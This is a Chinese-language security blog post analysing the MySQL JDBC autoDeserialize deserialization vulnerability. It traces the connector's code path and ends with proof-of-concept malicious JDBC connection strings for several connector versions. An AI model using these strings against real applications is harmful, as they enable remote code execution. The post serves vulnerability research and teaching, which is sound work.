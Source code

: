 # Java JDBC Attack-MySQL

  
  
&lt;!--more--&gt;  
## 0x01 **原理概述**  
扩展参数就是本次导致安全漏洞的一个重要的部分  
MySQL JDBC包含了一个危险的扩展参数:`autoDeserialize`。这个参数配置为 true 时，JDBC客户端将会自动反序列化服务端返回的数据，这就产生了RCE  
此时如果攻击者作为 MYSQL 服务器的角色，给客户端返回了恶意的序列化数据，客户端就会自动反序列化触发恶意代码，造成漏洞。  
主要会用到如下两类参数  
- 自动检测与反序列化存在BLOB字段中的对象。 **autoDeserialize**  
- 触发反序列化  
    - queryInterceptors，一个逗号分割的Class列表（实现了`com.mysql.cj.interceptors.QueryInterceptor`接口的Class），在Query&#34;之间&#34;进行执行来影响结果。  
    - detectCustomCollations  
通过`ServerStatusDiffInterceptor`或`detectCustomCollations`触发查询语句`SHOW SESSION STATUS`、`SHOW COLLATION`等，并调用`resultSetToMap`处理数据库返回的结果，而当`autoDeserialize`为true时会对server中返回的结果进行反序列化，从而造成代码执行  
## 0x02 漏洞分析  
`pom.xml`  
```xml  
&lt;dependency&gt;    
    &lt;groupId&gt;mysql&lt;/groupId&gt;    
    &lt;artifactId&gt;mysql-connector-java&lt;/artifactId&gt;    
    &lt;version&gt;8.0.13&lt;/version&gt;    
&lt;/dependency&gt;  
```  
Demo  
```java  
import java.sql.Connection;    
import java.sql.DriverManager;    
    
public class JDBC_Mysql {    
    public static void main(String[] args) throws Exception{    
        String driver = &#34;com.mysql.jdbc.Driver&#34;;    
        String DB_URL = &#34;jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc&#34;;//8.x使用    
        Class.forName(driver);    
        Connection conn = DriverManager.getConnection(DB_URL);    
    }    
}  
```  
  
```  
queryInterceptors，一个逗号分割的Class列表（实现了com.mysql.cj.interceptors.QueryInterceptor接口的Class），在Query&#34;之间&#34;进行执行来影响结果。  
```  
所以如上所述，想要触发`queryInterceptors`则需要触发`SQL Query`，而在`getConnection`过程中，会触发`SET NAMES utf`、`SET autocommit=-1`一类的请求，所以会触发我们所配置的`queryInterceptors`。  
`ServerStatusDiffInterceptor`的`preProcess`方法（执行 SQL query前需要执行的方法），调用了`populateMapWithSessionStatusValues`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162142671.png)
跟进查看`populateMapWithSessionStatusValues()`方法，执行了`SHOW SESSION STATUS`并获取了返回结果，进入到了`resultSetToMap()`方法，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162142836.png)
继续跟进，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162144369.png)
这里直接进入了`com.mysql.cj.jdbc.result.ResultSetImpl#getObject`方法，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162147273.png)
当1 或2字段为 Blob 且存储了序列化的数据，即可触发`readObject()`方法  
这里还需要注意需要满足此条件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162148585.png)
## 0x03 **POC**  
各版本均有差异  
**ServerStatusDiffInterceptor 触发**  
8.x   
```  
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc  
```  
6.x(属性名不同)  
```  
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc  
```  
5.1.11及以上的5.x版本(包名没有cj)  
```  
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc  
```  
5.1.10及以下的5.1.X版本：同上，但是需要连接后执行查询。  
**detectCustomCollations触发**  
5.1.29-5.1.40  
```  
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&amp;autoDeserialize=true&amp;user=yso_JRE8u20_calc  
```  
5.1.28-5.1.19  
```  
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;user=yso_JRE8u20_calc  
```  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/java-jdbc-attack-mysql/  

